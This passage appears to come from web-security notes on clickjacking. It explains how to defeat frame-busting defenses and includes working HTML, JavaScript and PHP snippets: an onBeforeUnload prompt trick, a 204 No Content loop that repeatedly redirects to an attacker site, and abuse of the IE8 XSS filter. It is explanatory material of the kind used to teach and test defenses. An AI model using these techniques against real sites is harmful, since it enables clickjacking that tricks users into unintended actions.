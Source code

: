 ## OnBeforeUnload Event

* The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target’s frame busting attempt.

* The attacker can use this attack by registering an unload event on the top page using the following example code:
 ```html
 <h1>www.fictitious.site</h1>
 <script>
     window.onbeforeunload = function()
     {
         return " Do you want to leave fictitious.site?";
     }
 </script>
 <iframe src="http://target site">
 ```

* The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a _"HTTP/1.1 204 No Content"_ header.

<br>_204 page:_
```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```
_Attacker's Page_
```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter 
This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request’s parameters.
  ```html
  <script>
      if ( top != self )
      {
          top.location=self.location;
      }
  ```